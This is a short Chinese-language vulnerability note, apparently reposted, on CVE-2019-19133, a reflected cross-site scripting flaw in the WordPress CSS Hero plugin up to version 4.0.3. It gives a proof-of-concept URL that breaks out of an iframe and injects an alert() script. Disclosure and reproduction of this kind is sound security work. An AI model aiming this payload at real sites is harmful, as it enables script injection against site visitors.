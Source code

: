 # （CVE-2019-19133）WordPress Plugin - CSS Hero 4.0.3 反射xss

> 原文：[https://www.zhihuifly.com/t/topic/3254](https://www.zhihuifly.com/t/topic/3254)

# （CVE-2019-19133）WordPress Plugin - CSS Hero 4.0.3 反射xss

## 一、漏洞简介

## 二、漏洞影响

CSS Hero插件 (<= v.4.0.3)

## 三、复现过程

首先WordPress应用中确保CSS Hero Plugin安装。

poc

```
hxxp://
0-sec.org/?csshero_action=edit_page&rand=1015&foo%22%3E%3C/iframe%3E%3Cscript%3Ealert(%27Reflected%20XSS%20in%20CSS%20Hero%204.0.3%27)%3C/script%3E%3Ciframe%3Ebar 
```